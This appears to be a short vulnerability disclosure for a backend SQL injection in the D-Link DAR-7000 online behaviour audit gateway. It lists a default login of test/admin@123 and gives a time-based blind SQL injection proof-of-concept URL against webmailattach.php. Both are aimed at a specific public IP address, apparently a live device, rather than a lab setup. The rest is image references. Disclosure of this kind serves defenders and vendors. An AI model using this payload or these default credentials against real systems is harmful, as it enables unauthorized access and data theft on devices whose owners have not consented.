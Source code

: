 There is a backend SQL injection vulnerability in the D-LINK DAR-7000 series online behavior audit gateway. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official http://www.dlink.com.cn/

version:DAR-7000

See the login page.

https://60.22.74.195:8443/

![image-20230902145448739](/Users/yuelingfeng/Library/Application Support/typora-user-images/image-20230902145448739.png)













There is a default account password present： test/admin@123



![image-20230902145527083](/Users/yuelingfeng/Library/Application Support/typora-user-images/image-20230902145527083.png)



poc：

url: https://60.22.74.195:8443/log/webmailattach.php?attach1=&attach2=(null)&table_name=tb_admin+where+1=1+and+(select*from(select(sleep(3)))a)%23&mail_file_path=1，



![image-20230902145556131](/Users/yuelingfeng/Library/Application Support/typora-user-images/image-20230902145556131.png)